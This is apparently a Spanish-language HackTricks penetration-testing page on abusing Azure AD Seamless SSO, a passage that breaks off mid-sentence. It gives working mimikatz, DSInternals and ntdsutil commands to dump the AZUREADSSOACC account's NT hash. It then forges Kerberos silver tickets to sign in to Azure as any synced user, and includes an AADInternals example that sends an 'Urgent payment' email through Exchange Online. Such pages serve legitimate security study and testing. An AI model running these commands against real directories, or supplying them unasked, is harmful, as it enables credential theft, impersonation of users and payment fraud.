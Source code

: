 # SSO sin interrupciones

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) inicia sesión automáticamente a los usuarios cuando están en sus dispositivos corporativos conectados a su red corporativa. Cuando está habilitado, los usuarios no necesitan escribir sus contraseñas para iniciar sesión en Azure AD, y por lo general, ni siquiera escriben sus nombres de usuario. Esta función proporciona a sus usuarios un fácil acceso a sus aplicaciones basadas en la nube sin necesidad de componentes adicionales locales.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Básicamente, Azure AD Seamless SSO inicia sesión a los usuarios cuando están en un PC unido a un dominio local.

Es compatible tanto con [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) como con [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

El SSO de escritorio utiliza **Kerberos** para la autenticación. Cuando está configurado, Azure AD Connect crea una **cuenta de equipo llamada AZUREADSSOACC** en AD local. La contraseña de la cuenta AZUREADSSOACC se envía en texto sin formato a Azure AD durante la configuración.

Los **tickets de Kerberos** están **encriptados** utilizando el **NTHash (MD4)** de la contraseña y Azure AD utiliza la contraseña enviada para descifrar los tickets.

**Azure AD** expone un **punto final** (https://autologon.microsoftazuread-sso.com) que acepta **tickets** de Kerberos. El navegador de la máquina unida al dominio envía los tickets a este punto final para el SSO.

### De local a la nube

La **contraseña** del usuario **AZUREADSSOACC nunca cambia**. Por lo tanto, un administrador de dominio podría comprometer el **hash de esta cuenta**, y luego usarlo para **crear tickets plateados** para conectarse a Azure con **cualquier usuario sincronizado localmente**:

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

Con el hash, ahora puede **generar tickets plateados**:

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

Para usar el ticket plateado:

1. Inicie _Mozilla Firefox_.
2. Vaya a **`about:config`** y establezca la preferencia [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) en el [valor](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Vaya a cualquier aplicación web que esté integrada con nuestro dominio AAD. Usaremos [Office 365](https://portal.office.com/), que es la más comúnmente utilizada.
4. Una vez en la pantalla de inicio de sesión, complete el nombre de usuario, dejando vacío el campo de contraseña. Luego presione TAB o ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### ¡Y eso es todo! ¡Debería estar dentro! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~Creación de tickets Kerberos para usuarios solo en la nube~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si los administradores
